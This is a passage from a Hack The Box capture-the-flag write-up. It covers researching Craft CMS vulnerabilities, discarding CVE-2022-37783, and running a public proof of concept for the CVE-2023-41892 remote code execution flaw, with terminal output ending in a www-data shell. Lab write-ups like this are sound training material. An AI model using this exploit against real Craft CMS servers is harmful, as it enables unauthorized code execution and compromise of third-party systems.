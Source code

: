 Let us try a bunch of passwords. And they don't really work so time to go do some research that leads me here. So I tried playing around with burp suite and see what happens,  and it was not really that helpful since I couldn’t find anything, possibly a rabbit hole.
![burp](https://i.ibb.co/2tsfd8f/burp-creds.png)

So we can dig around articles such as: [here](https://nvd.nist.gov/vuln/detail/CVE-2022-37783) and [here](https://cves.at/posts/cve-2022-37783/writeup/)

```
 All Craft CMS versions between 3.0.0 and 3.7.32 disclose password hashes of users who authenticate using their E-Mail address or username in Anti-CSRF-Tokens. Craft CMS uses a cookie called CRAFT_CSRF_TOKEN and a HTML hidden field called CRAFT_CSRF_TOKEN to avoid Cross Site Request Forgery attacks. The CRAFT_CSRF_TOKEN cookie discloses the password hash in without encoding it whereas the corresponding HTML hidden field discloses the users' password hash in a masked manner, which can be decoded by using public functions of the YII framework. 
```
So we do see that some CMS versions are vulnerable to Cross site forgery request, so let us check our CMS version to see if this attack would be possible against our target. Going through index.php we find the version of the CMS. It is version 4.4.14 so we really cannot do a cross site forgery here. 
![cms_version](https://i.ibb.co/hZwbkXp/cms-version.png)

Digging deeper we can find another nice article that mentions a vulnerability discovered that allowed attackers to perform arbirtiary code remotely.  

[exploit](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)

CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application. 

We are also given a python exploit and we can try that. So running the script with the URL gives us a shell. 
```shell
dexter@lab:~/lab/HTB/machines/surveilance$ python3 poc.py                                                                                        

Usage: python CVE-2023-41892.py <url> 

dexter@lab:~/lab/HTB/machines/surveilance$ python3 poc.py http://surveillance.htb/ 

[-] Get temporary folder and document root ... 

[-] Write payload to temporary file ... 

[-] Trigger imagick to write shell ... 

[-] Done, enjoy the shell 

$ id 

uid=33(www-data) gid=33(www-data) groups=33(www-data) 

$ whoami 

www-data 

$  
```
